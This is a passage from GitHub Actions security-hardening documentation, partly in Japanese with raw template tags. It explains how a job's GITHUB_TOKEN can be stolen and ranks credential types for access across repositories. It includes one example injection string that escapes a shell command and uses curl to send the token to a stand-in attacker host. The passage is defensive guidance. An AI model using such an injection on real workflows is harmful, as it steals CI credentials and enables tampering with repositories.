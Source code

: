 ### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API to [modify repository content](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## リポジトリ間のアクセスを検討する

{% data variables.product.prodname_actions %} は、意図的に一度に単一のリポジトリに対してスコープされます。 The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file{% ifversion fpt or ghes > 3.1 or ghae-next or ghec %}, elevating the permissions of the `GITHUB_TOKEN` if necessary{% endif %}. ユーザはリポジトリごとに特定の権限を持っているため、1 つのリポジトリの `GITHUB_TOKEN` に別のリポジトリへのアクセスを許可すると、慎重に実装しない場合 {% data variables.product.prodname_dotcom %} 権限モデルに影響します。 同様に、{% data variables.product.prodname_dotcom %} 認証トークンをワークフローに追加する場合は注意が必要です。これは、コラボレータに誤って広範なアクセスを付与することにより、{% data variables.product.prodname_dotcom %} アクセス許可モデルにも影響を与える可能性があるためです。

[{% data variables.product.prodname_dotcom %} ロードマップ](https://github.com/github/roadmap/issues/74)では、{% data variables.product.product_name %} 内のリポジトリ間アクセスを可能にするフローをサポートする計画がありますが、この機能はまだサポートされていません。 現在、権限のあるリポジトリ間のやり取りを実行する唯一の方法は、ワークフロー内に {% data variables.product.prodname_dotcom %} 認証トークンまたは SSH キーをシークレットとして配置することです。 多くの認証トークンタイプでは特定のリソースへの詳細なアクセスが許可されていないことから、意図したものよりはるかに広範なアクセスを許可できるため、間違ったトークンタイプを使用すると重大なリスクが生じます。

次のリストでは、ワークフロー内のリポジトリデータにアクセスするための推奨アプローチを優先度の高い順に説明しています。

1. **`GITHUB_TOKEN`**
    -  このトークンは、ワークフローを呼び出した単一のリポジトリに意図的にスコープされており、リポジトリの書き込みアクセスを持つユーザと同じレベルのアクセス権を{% ifversion fpt or ghes > 3.1 or ghae-next or ghec %}持つ{% else %}ことができます{% endif %}。 トークンは各ジョブが開始する前に作成され、ジョブが終了すると期限切れになります。 詳しい情報については「[GITHUB_TOKENでの認証](/actions/configuring-and-managing-workflows/authenticating-with-the-github_token)」を参照してください。
    - 可能な場合は、常に `GITHUB_TOKEN` を使用する必要があります。
2. **リポジトリのデプロイキー**
    - デプロイキーは、単一のリポジトリへの読み取りまたは書き込みアクセスを許可する唯一の認証情報タイプの 1 つであり、ワークフロー内の別のリポジトリとのやり取りに使用できます。 詳しい情報については、「[デプロイキーを管理する](/developers/overview/managing-deploy-keys#deploy-keys)」を参照してください。
    - デプロイキーは Git を使用してリポジトリに複製およびプッシュできるだけであり、REST または GraphQL API とのやり取りには使用できないため、要件に適さない場合があることに注意してください。
3. **{% data variables.product.prodname_github_app %} トークン**
    - {% data variables.product.prodname_github_apps %} は、選択したリポジトリにインストールでき、リポジトリ内のリソースに対する詳細な権限を持つこともできます。 Organization の内部で {% data variables.product.prodname_github_app %} を作成し、ワークフロー内でアクセスする必要があるリポジトリにインストールして、それらのリポジトリにアクセスするためのワークフロー内のインストールとして認証できます。
4. **個人アクセストークン**
    - 自分のアカウントから個人アクセストークンを使用しないでください。 これらのトークンは、アクセスできる Organization 内のすべてのリポジトリ、およびユーザアカウントのすべての個人リポジトリへのアクセスを許可します。 これにより、ワークフローが含まれているリポジトリのすべての書き込みアクセスユーザに間接的に広範なアクセス権が付与されます。 さらに、後で Organization を離れると、このトークンを使用するワークフローはすぐに中断され、この問題のデバッグが困難になる場合があります。
    - 個人アクセストークンを使用する場合は、ワークフローに必要な特定のリポジトリへのアクセスのみが許可される新しいアカウント用に生成されたものを使用してください。 このアプローチはスケーラブルではないため、デプロイキーなどの代替案を優先して避ける必要があります。
5. **ユーザアカウントの SSH キー**
    - ワークフローでは、ユーザアカウントの SSH キーを使用しないでください。 これらは、個人アクセストークンと同様に、すべての個人リポジトリと、Organization のメンバーシップを通じてアクセスできるすべてのリポジトリに読み取り/書き込み権限を付与します。  これにより、ワークフローが含まれているリポジトリのすべての書き込みアクセスユーザに間接的に広範なアクセス権が付与されます。 リポジトリのクローンまたはプッシュのみを実行する必要があり、パブリック API とやり取りする必要がないため、SSH キーを使用する場合は、代わりに個別のデプロイキーを使用する必要があります。
